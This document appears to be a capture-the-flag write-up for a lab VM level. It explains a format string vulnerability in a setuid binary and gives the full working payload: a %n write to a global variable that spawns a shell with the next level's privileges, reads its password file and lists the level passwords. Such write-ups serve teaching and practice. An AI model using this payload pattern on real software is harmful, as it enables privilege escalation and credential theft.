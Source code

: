 # Level3 - Format string vulnerability - Basic write short integer

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level2.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   ebp
  0x0804851b <+1>:     mov    ebp,esp
  0x0804851d <+3>:     and    esp,0xfffffff0
  0x08048520 <+6>:     call   0x80484a4 <v>                     # call v()
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   ebp
  0x080484a5 <+1>:     mov    ebp,esp
  0x080484a7 <+3>:     sub    esp,0x218
  0x080484ad <+9>:     mov    eax,ds:0x8049860                  # 0x8049860 <stdin@@GLIBC_2.0>
  0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax           # buffer starts at esp+0x8
  0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200         # fgets maxLength = 0x200 (512)
  0x080484be <+26>:    lea    eax,[ebp-0x208]
  0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484cc <+40>:    lea    eax,[ebp-0x208]
  0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>            # call printf(buf)
  0x080484da <+54>:    mov    eax,ds:0x804988c
  0x080484df <+59>:    cmp    eax,0x40                          # if $eax == 0x40 (64) ?
  0x080484e2 <+62>:    jne    0x8048518 <v+116>                 # if != jump leave
  0x080484e4 <+64>:    mov    eax,ds:0x8049880                  # 0x8049880 <stdout@@GLIBC_2.0>
  0x080484e9 <+69>:    mov    edx,eax
  0x080484eb <+71>:    mov    eax,0x8048600                     # 0x8048600:       "Wait what?!\n"
  0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
  0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc           # nmemb=12
  0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1           # size=1
  0x08048504 <+96>:    mov    DWORD PTR [esp],eax
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>            # call fwrite("Wait what?!\n", 1, 12, stdout)
  0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d         # 0x804860d:       "/bin/sh"
  0x08048513 <+111>:   call   0x80483c0 <system@plt>            # call system("/bin/sh")
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

We can see, there is a function `fgets`. In the previous level, `gets` function was the vulnerability. As `fgets` is protected with a `size` parameter to control the number of chars readed, the function is safe.

Then there is an unsafe `printf` syscall. Unsafe because the argument `buf` is directly passed without any format string.

Using printf specifiers we can use this buffer to read and write the stack. This vulnerability is called "Format string attack".

```bash
~/level3 <<< %p
0x200 # print first content after printf argument

~/level3 <<< "%08x.%08x.%08x\n"
> 00000200.b7fd1ac0.b7ff37d0\n # print 3 addresses after printf argument

gdb-peda$ b printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff42c --> 0x80484da (<v+54>: mov    eax,ds:0x804988c)
0004| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0008| 0xbffff434 --> 0x200
0012| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2288
0016| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0020| 0xbffff440 ("AAAA\n")
0024| 0xbffff444 --> 0xb7e2000a
0028| 0xbffff448 --> 0x1
[------------------------------------------------------------------------------]
```

We can see an offset of 4 between the printf argument (`0xbffff430`) and the real address of the buffer (`0xbffff440`).

```bash
/level3 <<< 'AAAA.%4$p'
AAAA.0x41414141
```

The specifier `%4$p` prints the 4th address before the printf argument, which contains our buffer string

But the goal is to replace the value of the global variable `m` with 0x40 (64).

To do that, we will use the specifier `%n`. According to the printf() man page, here is what %n should do :

> The number of characters written so far is stored into the integer indicated by the int \* (or variant) pointer argument. No argument is converted.

Basically, it means that `%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of "AAAA" equals 4) at the address pointed by `%n`.

The address of the global `m` is `0x0804988c` in big endian.

We have to have a format string like: `<ADDRESS_TO_WRITE_ON> + <PADDING> + "%n"`

```
=> `"\x8c\x98\x04\x08" + "A" * (64 - 4) + "%4$n"`
            |             |                |________ %n specifier with offset of 4
            |             |_________________________ padding of size 60 to write the value 64
            |_______________________________________ m address
```

Lets try

```shell
gdb-peda$ b*v+54
gdb-peda$ run < <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"')

[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 --> 0x804988c --> 0x40 ('@')
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 --> 0x804988c --> 0x40 ('@')
[------------------------------------------------------------------------------]

gdb-peda$ continue
> Wait what?!
  [New process 5560]
  process 5560 is executing new program: /bin/dash
```

Great! `0xbffff440` has now the value 0x40, and the terminal has been created

We don't have the level4 rights with gdb. Lets try directly with the binary to access the shell:

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"' ; cat) | ~/level3
> Wait what?!

$ id
> uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)

$ cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [gets vs fgets](<https://iq.opengenus.org/gets-vs-fgets-in-c/#:~:text=depends%20on%20system-,gets()%20keeps%20reading%20input%20until%20newline%20character%20or%20end,of%20input%20characters%20is%20reached.>)

- [Format string attack - Introduction](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
